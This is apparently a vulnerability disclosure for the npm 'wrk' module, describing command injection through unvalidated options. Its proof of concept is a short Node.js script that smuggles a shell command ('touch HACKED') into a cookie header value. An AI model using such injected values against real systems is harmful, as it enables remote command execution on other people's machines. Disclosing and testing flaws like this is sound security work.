 # Description

The `wrk` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var wrk = require('wrk');
wrk({ threads: 1, connections: ['s','aaa'], duration: '10s', printLatency: true, headers: { cookie: 'test \'; touch HACKED; #' }, url: 'http://localhost:3000/' }); //Error !! --> any problem
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wrk # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
